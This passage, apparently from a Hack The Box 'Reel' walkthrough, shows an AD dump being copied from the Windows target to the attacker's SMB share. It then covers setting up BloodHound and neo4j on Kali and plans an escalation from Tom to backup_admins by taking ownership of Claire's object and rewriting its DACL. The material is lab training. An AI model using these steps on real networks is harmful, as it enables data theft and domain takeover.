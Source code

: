 To copy files from a windows to an SMB server, we must execute the following:  

{% highlight shell %}
tom@REEL C:\Users\tom>copy 20190623093056_BloodHound.zip \\10.10.14.30\share                   
        1 file(s) copied.
{% endhighlight %} 

### Bloodhound
Bloodhound is a tool to take that analysis I just did in spreadsheets, and visualize it. This one computer had 880 relationships / edges in it’s graph. Imagine what an active directory environment of 300,000 computers would look like. Bloodhound finds paths between two objects in these large environments.  
To install Bloodhound on Kali, you can execute:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Reel]─[root@Arthorias]─[0]─[2505]
╰─[:)] # apt install bloodhound
{% endhighlight %} 

After installation, to initialize bloodhound we execute the following:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Reel]─[root@Arthorias]─[0]─[2505]
╰─[:)] # neo4j console
Active database: graph.db
Directories in use:
  home:         /usr/share/neo4j
  config:       /usr/share/neo4j/conf
  logs:         /usr/share/neo4j/logs
  plugins:      /usr/share/neo4j/plugins
  import:       /usr/share/neo4j/import
  data:         /usr/share/neo4j/data
  certificates: /usr/share/neo4j/certificates
  run:          /usr/share/neo4j/run
Starting Neo4j.
WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
2019-06-23 07:09:18.675+0000 INFO  ======== Neo4j 3.5.3 ========
2019-06-23 07:09:18.708+0000 INFO  Starting...
2019-06-23 07:09:24.362+0000 INFO  Bolt enabled on 127.0.0.1:7687.
2019-06-23 07:09:27.619+0000 INFO  Started.
2019-06-23 07:09:29.944+0000 INFO  Remote interface available at http://localhost:7474/
{% endhighlight %} 

After logging in with the default credentials neo4j:neo4j, We load the  **20190623093056_BloodHound.zip** file from the bloodhound web interface.  

Using the “from” and “to” option in bloodhound, I noticed there is a possible path from Tom to the “backup_admins” group.  We have to pivot to the Claire user. Since Tom owns the Claire user object, it is possible for Tom to take ownership and modify the DACL of the Claire user object. We can abuse this to give Tom permissions to change the password of Claire. To change the DACL we first have to take ownership of the Claire object.

<figure>
  <img src="{{site.baseurl}}/img/BloodHound.gif">
	<figcaption>
    <a href="{{site.baseurl}}/img/BloodHound.gif" title="Analyzing with BloodHound">Analyzing with BloodHound</a>.
  </figcaption>
</figure>
